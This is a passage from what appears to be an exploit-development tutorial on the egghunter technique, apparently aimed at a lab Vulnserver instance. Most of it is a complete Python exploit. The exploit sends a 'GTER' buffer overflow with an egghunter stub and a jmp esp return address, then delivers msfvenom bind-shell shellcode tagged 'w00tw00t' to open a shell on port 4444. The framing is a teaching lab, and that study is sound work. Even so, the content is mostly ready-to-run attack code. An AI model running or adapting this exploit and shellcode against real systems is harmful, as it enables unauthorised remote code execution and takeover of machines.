SHELL += b"\x9e\x25\x3b\xd1\x61\xc6\x3c\xf8\xa5\x92\x6c\x92"
SHELL += b"\x0c\x9b\xe6\x62\xb0\x4e\x92\x6a\x17\x21\x81\x97"
SHELL += b"\xe7\x91\x05\x37\x80\xfb\x89\x68\xb0\x03\x40\x01"
SHELL += b"\x59\xfe\x6b\x3c\xc6\x77\x8d\x54\xe6\xd1\x05\xc0"
SHELL += b"\xc4\x05\x9e\x77\x36\x6c\xb6\x1f\x7f\x66\x01\x20"
SHELL += b"\x80\xac\x25\xb6\x0b\xa3\xf1\xa7\x0b\xee\x51\xb0"
SHELL += b"\x9c\x64\x30\xf3\x3d\x78\x19\x63\xdd\xeb\xc6\x73"
SHELL += b"\xa8\x17\x51\x24\xfd\xe6\xa8\xa0\x13\x50\x03\xd6"
SHELL += b"\xe9\x04\x6c\x52\x36\xf5\x73\x5b\xbb\x41\x50\x4b"
SHELL += b"\x05\x49\xdc\x3f\xd9\x1c\x8a\xe9\x9f\xf6\x7c\x43"
SHELL += b"\x76\xa4\xd6\x03\x0f\x86\xe8\x55\x10\xc3\x9e\xb9"
SHELL += b"\xa1\xba\xe6\xc6\x0e\x2b\xef\xbf\x72\xcb\x10\x6a"
SHELL += b"\x37\xeb\xf2\xbe\x42\x84\xaa\x2b\xef\xc9\x4c\x86"
SHELL += b"\x2c\xf4\xce\x22\xcd\x03\xce\x47\xc8\x48\x48\xb4"
SHELL += b"\xa0\xc1\x3d\xba\x17\xe1\x17"
----

And add it to our exploit. Remember to prepend the `w00tw00t`
tag, or the egghunter won't be able to find it!

.exploit.py
[source,python]
----
import socket
import struct

HOST = '192.168.241.1'
PORT = 9999

EGGHUNTER =  b""
EGGHUNTER += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd"
EGGHUNTER += b"\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74"
EGGHUNTER += b"\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

# msfvenom -p windows/shell_bind_tcp RPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00'
SHELL =  b"w00tw00t"      # The egghunter will look for this
SHELL += b"\xdb\xda\xd9\x74\x24\xf4\x5a\x31\xc9\xb1\x53\xb8"
SHELL += b"\x02\xdd\x89\x3a\x31\x42\x17\x03\x42\x17\x83\xe8"
SHELL += b"\x21\x6b\xcf\x10\x31\xee\x30\xe8\xc2\x8f\xb9\x0d"
SHELL += b"\xf3\x8f\xde\x46\xa4\x3f\x94\x0a\x49\xcb\xf8\xbe"
SHELL += b"\xda\xb9\xd4\xb1\x6b\x77\x03\xfc\x6c\x24\x77\x9f"
SHELL += b"\xee\x37\xa4\x7f\xce\xf7\xb9\x7e\x17\xe5\x30\xd2"
SHELL += b"\xc0\x61\xe6\xc2\x65\x3f\x3b\x69\x35\xd1\x3b\x8e"
SHELL += b"\x8e\xd0\x6a\x01\x84\x8a\xac\xa0\x49\xa7\xe4\xba"
SHELL += b"\x8e\x82\xbf\x31\x64\x78\x3e\x93\xb4\x81\xed\xda"
SHELL += b"\x78\x70\xef\x1b\xbe\x6b\x9a\x55\xbc\x16\x9d\xa2"
SHELL += b"\xbe\xcc\x28\x30\x18\x86\x8b\x9c\x98\x4b\x4d\x57"
SHELL += b"\x96\x20\x19\x3f\xbb\xb7\xce\x34\xc7\x3c\xf1\x9a"
SHELL += b"\x41\x06\xd6\x3e\x09\xdc\x77\x67\xf7\xb3\x88\x77"
SHELL += b"\x58\x6b\x2d\xfc\x75\x78\x5c\x5f\x12\x4d\x6d\x5f"
SHELL += b"\xe2\xd9\xe6\x2c\xd0\x46\x5d\xba\x58\x0e\x7b\x3d"
SHELL += b"\x9e\x25\x3b\xd1\x61\xc6\x3c\xf8\xa5\x92\x6c\x92"
SHELL += b"\x0c\x9b\xe6\x62\xb0\x4e\x92\x6a\x17\x21\x81\x97"
SHELL += b"\xe7\x91\x05\x37\x80\xfb\x89\x68\xb0\x03\x40\x01"
SHELL += b"\x59\xfe\x6b\x3c\xc6\x77\x8d\x54\xe6\xd1\x05\xc0"
SHELL += b"\xc4\x05\x9e\x77\x36\x6c\xb6\x1f\x7f\x66\x01\x20"
SHELL += b"\x80\xac\x25\xb6\x0b\xa3\xf1\xa7\x0b\xee\x51\xb0"
SHELL += b"\x9c\x64\x30\xf3\x3d\x78\x19\x63\xdd\xeb\xc6\x73"
SHELL += b"\xa8\x17\x51\x24\xfd\xe6\xa8\xa0\x13\x50\x03\xd6"
SHELL += b"\xe9\x04\x6c\x52\x36\xf5\x73\x5b\xbb\x41\x50\x4b"
SHELL += b"\x05\x49\xdc\x3f\xd9\x1c\x8a\xe9\x9f\xf6\x7c\x43"
SHELL += b"\x76\xa4\xd6\x03\x0f\x86\xe8\x55\x10\xc3\x9e\xb9"
SHELL += b"\xa1\xba\xe6\xc6\x0e\x2b\xef\xbf\x72\xcb\x10\x6a"
SHELL += b"\x37\xeb\xf2\xbe\x42\x84\xaa\x2b\xef\xc9\x4c\x86"
SHELL += b"\x2c\xf4\xce\x22\xcd\x03\xce\x47\xc8\x48\x48\xb4"
SHELL += b"\xa0\xc1\x3d\xba\x17\xe1\x17"

PAYLOAD = (
    b'GTER /.:/' +
    EGGHUNTER +
    b'A' * (147 - len(EGGHUNTER)) +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    print('Sending first stage...')
    fd.sendall(PAYLOAD)
    print('Done.')

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    print('Sending shellcode...')
    fd.sendall(SHELL)
    print('Boom! Check the port 4444 of the victim.')
----

And look the egghunter in action:



Awesome! We got our shell again!

== Conclusion

The egghunter technique is very useful when dealing with
short space for sending complex payloads. You must be
carefull to inject the correct tag because it will
start using all the available resources searching for the
egg on the entire system memory.
